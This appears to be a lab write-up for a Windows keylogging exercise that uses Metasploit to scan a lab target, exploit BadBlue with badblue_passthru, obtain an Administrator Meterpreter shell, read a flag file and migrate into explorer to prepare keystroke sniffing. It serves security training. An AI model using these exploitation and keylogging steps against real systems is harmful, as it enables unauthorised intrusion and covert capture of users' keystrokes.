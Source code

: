 

<details><summary>Reveal Flag: 🚩</summary></details>

------

## Lab 8 - Keylogging

> 🔬 [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.24.165`
> - Metasploit **keystroke sniffer**

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.165
setg RHOST 10.2.24.165
workspace -a Keylogging
db_nmap -sV 10.2.24.165
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```
shell
cd /
type flag.txt
```



<details><summary>Reveal Flag: 🚩</summary></details>

### Keylogging

```bash
pgrep explorer
migrate 2420
help

# Stdapi: User interface Commands
===============================
    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
```